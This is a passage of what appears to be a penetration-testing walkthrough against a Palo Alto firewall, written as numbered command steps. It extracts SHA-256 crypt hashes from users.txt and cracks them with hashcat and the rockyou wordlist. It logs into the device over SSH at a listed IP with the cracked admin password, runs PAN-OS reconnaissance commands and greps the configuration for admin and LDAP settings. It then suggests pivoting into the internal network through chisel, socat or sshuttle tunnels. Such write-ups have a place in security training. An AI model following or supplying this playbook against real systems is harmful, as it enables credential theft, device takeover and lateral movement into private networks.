 1. First, verify that you’re in the correct directory where users.txt is located. You can search for the file and navigate to it with the following commands: `find / -name "users.txt"`
   Once you have found the file, change to the directory where it's located (unless you are already there): `cd /path/to/directory/with/users.txt`
2. Once you are in the correct directory, run the following command to create a new file containing only the valid SHA-256 hashes and usernames from the users.txt file: `grep -E '^\S+:\$5\$' users.txt > valid_hashes.txt`
   This command filters the content of users.txt and extracts the lines that start with valid SHA-256 hashes ($5$), saving them to a new file called valid_hashes.txt.
3. Now that you have the valid hashes in valid_hashes.txt, you can begin cracking the passwords offline using Hashcat. Run the following command to start the cracking process with the rockyou.txt wordlist: `hashcat -m 7400 -a 0 valid_hashes.txt /usr/share/wordlists/rockyou.txt`
   This will use Hashcat to attempt cracking the passwords. The -m 7400 option specifies the SHA-256 crypt format, and the -a 0 option sets the attack mode to dictionary-based.
   -While Hashcat is running, you can check the status of the cracking process by using the following command: `hashcat --status`
4. Once Hashcat has completed the cracking process, you can view the cracked passwords by running: `hashcat --show valid_hashes.txt`
5. Using the cracked administrator credentials, you can now log into the Palo Alto device via SSH: `ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa admin@1.33.170.38`
   When prompted, enter the cracked password. If successful, you should be logged into the Palo Alto device.
   ![image](https://github.com/user-attachments/assets/66e07739-2790-485b-9154-57c3ca5a34c8)


## Phase 5: Internal Reconnaissance & Enumeration

In this section, we’ll perform network discovery using native PAN-OS commands directly from the compromised Palo Alto device. We’ll focus on gathering network information, such as interfaces, routing tables, and active sessions.

Additionally, we copy all outputs from coommands into a text document on our local machine for later review.

1. Get Network Interfaces and copy them into a text file on your host machine: `show interface all`
2. View routing table and copy into same created text file: `show routing route`
3. Check arp table: `show arp all`
4. Check active sessions: `show session all`
5. Show system resources: `show system resources`



#### Look for management configs or logs

```bash
cat /config/config.xml | grep -i 'mgmt\|admin\|ldap\|radius'
```

#### Attempt to pivot through firewall if routing/NAT is enabled

- sshuttle/reverse SOCKS proxy (chisel, socat) to tunnel traffic into the internal
network.

